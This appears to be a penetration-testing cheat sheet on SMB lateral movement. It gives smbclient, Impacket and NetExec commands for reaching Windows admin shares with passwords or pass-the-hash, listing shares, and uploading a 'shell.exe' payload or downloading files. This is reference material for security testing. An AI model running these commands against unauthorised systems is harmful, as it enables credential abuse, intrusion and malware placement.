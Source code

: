 # Unix Shell

Search Tag(s): #lateral-movement #impacket #windows

## 01 - Authenticate

### 1.1 - Samba Suite Utils

```
$ smbclient -U "[<domain_name>/]<username>%<password>" //<IP>/c$
```

Pass the Hash

```
$ smbclient -U "[<domain_name>/]<username>" --pw-nt-hash <nt_hash> //<IP>/c$
```

### 1.2 - Impacket

```
$ smbclient.py [<domain>/]<username>:<password>@<IP>
```

Pass the Hash

```
$ smbclient.py -hashes :<nt_hash> [<domain>/]<username>@<IP>
```

### 1.3 - NetExec

#### 1.3.1 - Authentication

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain_name> | --local-auth]
```

- Pass the Hash

```
$ netexec smb <IP> -u "<username>" -H "<nt_hash>" [-d <domain_name> | --local-auth]
```

## 02 - List Files and Directories

### 2.1 - Samba Suite Utils

```
smb: \> ls
```

### 2.2 - Impacket

```
# use c$

# ls
```

### 2.3 - NetExec

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain_name> | --local-auth] --shares
```

## 03 - Copy Files

### 3.1 - Samba Suite Utils

Upload file

```
smb: \> put /path/to/local/shell.exe
```

Download file

```
smb: \> get \path\to\remote\file.txt
```

### 3.2 - Impacket

Upload file

```
# put /path/to/local/shell.exe
```

Download file

```
# get \path\to\remote\file.txt
```

### 3.3 - NetExec

Upload file

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain_name> | --local-auth] --put-file /path/to/local/shell.exe \\path\\to\\remote\\shell.exe

$ netexec smb <IP> -u "<username>" -H "<nt_hash>" [-d <domain_name> | --local-auth] --put-file /path/to/local/shell.exe \\path\\to\\remote\\shell.exe
```

Download file

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain_name> | --local-auth] --get-file \\path\\to\\remote\\file.txt /path/to/local/file.txt

$ netexec smb <IP> -u "<username>" -H "<nt_hash>" [-d <domain_name> | --local-auth] --get-file \\path\\to\\remote\\file.txt /path/to/local/file.txt
```

---
## References

- [NetExec Wiki: Get and Put Files](https://www.netexec.wiki/smb-protocol/get-and-put-files)